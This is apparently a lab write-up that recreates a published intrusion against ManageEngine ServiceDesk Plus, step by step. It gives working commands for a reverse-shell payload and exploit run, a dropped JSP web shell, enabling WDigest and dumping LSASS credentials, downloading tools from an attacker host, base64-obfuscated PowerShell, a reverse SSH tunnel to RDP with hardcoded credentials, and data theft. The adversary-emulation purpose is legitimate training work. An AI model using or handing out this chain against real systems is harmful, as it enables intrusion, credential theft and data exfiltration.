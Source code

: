 
# Sketching an attack based on "[Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/)" Report

## 1. Hands On Action: Exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

a. Based on the [POC](https://github.com/horizon3ai/CVE-2021-44077) msiexec.exe is created through `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
```

b. run your listener

```
nc -l 4444
```

c. run the exploit script

```
python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
```

![CVE-Exploitation-Success](CVE-Exploitation-Success.png)

#### But this approach isn't the same as the [report](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/), as in the report the Threat Actor dropped a web shell JSP file `jm2.jsp` and then accessed it.

![image](https://github.com/user-attachments/assets/16c25295-6f5a-465d-96b4-da499027becb)

#### So, I wrote a simple Python script that, when executed a `wbsh.jsp` is written to `\custom\login` directory

![image](https://github.com/user-attachments/assets/a0525bc4-dc65-4c9b-9856-110ae5456b23)


#### then used `pyinstaller` to convert it to an executable exe file

![image](https://github.com/user-attachments/assets/cb7515a7-7eb1-49a0-b72d-5a3e834b0348)

#### now we have `msiexec.exe`, let's use the exploit again

![image](https://github.com/user-attachments/assets/8b473af9-46a4-4f89-9278-ff2b2c1b54b7)

#### It Worked !!

![wbsh](https://github.com/user-attachments/assets/4c83acaf-d287-4330-9b7c-34514170a965)

![image](https://github.com/user-attachments/assets/55a6b0e8-78cf-46d7-ae3f-91f68353e9b8)

#### `whoami` ?
> No Need for Privilege Escalation

![image](https://github.com/user-attachments/assets/78176ea2-9843-480b-984c-b65e5ce7de80)

<hr />

### 2. Next step we are enabling `WDigest` -> then dumping `LSASS`, -> then downloading it

a. Is WDigest Enabled?

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

![image](https://github.com/user-attachments/assets/b6029281-dae5-4253-a7c5-8d4365bcc295)


b. Let's Enable it

```
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
```

![image](https://github.com/user-attachments/assets/ac6e01e2-ab72-4ba4-928b-4a2ead73f624)

> Yes it is Enabled!

c. Now we have clear plaintext passwords stored in `LSASS`
```
tasklist | findstr "lsass" 
```

![image](https://github.com/user-attachments/assets/58db05a4-2da0-4d51-8bdf-9671eb584c94)

d. Let's dump it
```
C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 668 C:\Windows\Temp\logctl.zip full
```

e. Download it

![image](https://github.com/user-attachments/assets/6994c404-8d93-42f3-ae33-89e6cc34c703)

f. after downloading the logctl.zip file, i'ts empty , which was weird and tried multiple ways and every time when i dump it, its empty so i had to use `procdump.exe`. 

![image](https://github.com/user-attachments/assets/ab124bb5-bdf1-4a87-aaa8-0b53bb3d2869)

> I will be adding this part to the lab for more fun

g. Download `procdump.exe`

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')
```

h. Use `procdump.exe`
```
C:\windows\temp\calc.exe -accepteula -ma 668 C:\Windows\Temp\logct2.dmp
```

![image](https://github.com/user-attachments/assets/78153249-ea74-4777-8430-05dc64c8c04a)

j. Download it

![image](https://github.com/user-attachments/assets/e3649426-ec9b-4fd8-a3e3-0a0ce7b1acd6)

<hr />

### 3. now we have the dump, we will skip the process of fetching the passwords for now, Lets Go to the next step where the attacker starts tunneling RDP connections over SSH

a. First, we will download `plink.exe` as `ekern.exe`
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

b. By default, RDP is Disabled. Let's check first
```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/2c8d0804-16c5-4961-9e13-6179a61d723d)

c. Enable RDP, but let's base64 encode this and put it in one-line command

```
Set-Service -Name TermService -StartupType Automatic
Start-Service -Name TermService
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
```

d. Encoded:

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

e. Run the encoded command and let's checkout

```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/272a554b-5da5-4103-8ec0-18ee4424299e)


f. Download Bitvise SSH Server `192.168.1.2` and Configure credentials

```
username: H@ck3r
password: C@nt_D3f3nd_2021-44077
```

g. Let's write the FXS.bat file to run `ekern.exe` and establish a reverse SSH Connection to RDP

```
echo y|C:\Users\Temp\ekern.exe -ssh -P 443 -l H@ck3r -pw C@nt_D3f3nd_2021-44077 -R 127.0.0.1:49800:192.168.20.150:3389 192.168.1.2
```

h. Another base64? No need to download it

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
```

![image](https://github.com/user-attachments/assets/4f85fa3e-6cb0-48be-bc14-597ab146778a)

j. Let's run our batch...

![image](https://github.com/user-attachments/assets/f149d6b7-6b3e-475f-b867-376a98ef18ba)

k. Now It's RDP time

![image](https://github.com/user-attachments/assets/0f083225-b204-4e26-ab6a-89b6193da53f)

![image](https://github.com/user-attachments/assets/2f3579f5-3be2-40be-bad0-cba283211a7d)

it WORKED !!
![image](https://github.com/user-attachments/assets/fbd3d1af-1541-41de-a2a3-23cb1f28a86c)

<hr />

### 4. Stealing Some Data
a. Download postgres DB backup of the ManageEngine ServiceDesk Plus application it's located at `C:\Program Files (x86)\ManageEngine\ServiceDesk\backup\backup_postgres_11303_fullbackup_07_19_2024_20_07\`

![image](https://github.com/user-attachments/assets/07a1e62a-f55e-49b8-ac4d-1dfe56e59476)

b. there is a file named `Employees.xls` located on the Desktop let's see it 

![image](https://github.com/user-attachments/assets/4bf04d98-3165-41a8-8dea-4dbd01abac1d)

<hr />

## Conclusion

We started exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077) then a wbsh.jsp file was dropped, and by using it we gained a web shell and after little enummuration we started to dump LSASS after enabling WDigest to allow passwords to be stored in plaintext format. 

Then we have downloaded ekern.exe which was a renamed version of [Plink](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html), and wrote a batch script `FXS.bat` to establish a reverse SSH connection to tunnel RDP connections over it. After that we stole some confedintial data like `backup_postgres_11303_fullbackup_07_19_2024_20_07_part_1.data` and `Employees.xls`.

> THIS WAS FUN !!

